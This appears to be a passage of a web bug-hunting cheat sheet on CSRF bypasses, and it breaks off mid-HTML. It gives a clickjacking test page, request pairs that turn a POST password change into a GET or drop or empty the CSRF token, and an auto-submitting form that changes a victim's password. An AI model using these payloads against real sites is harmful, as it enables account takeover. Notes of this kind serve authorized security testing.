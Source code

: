 ```yaml
---
tags:
  - web_hunting
---
```

- **CSRF Bypasses**
    
    - **ClickJacking**
        
        ```html
        <html>
         <head>
         <title>Clickjack test page</title>
         </head>
         <body>
         <p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
         <iframe src="PAGE_URL" width="500" height="500"></iframe>
         </body>
        </html>
        ```
        
    - **Change Request Method**
        
        ```html
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        --------------------------------------------
        GET /password_change?new_password=abc123
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        ```
        
    - **Bypass CSRF Tokens stored on the server**
        
        ```html
        # remove the token
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123
        -------------------------------------------------------------
        <html>
         <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type='submit' value="Submit">
         </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        ----------------------------------------------------------------
        # Empty Parameter
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123&csrf_token=
        ---------------------------------------------------------------------
        <html>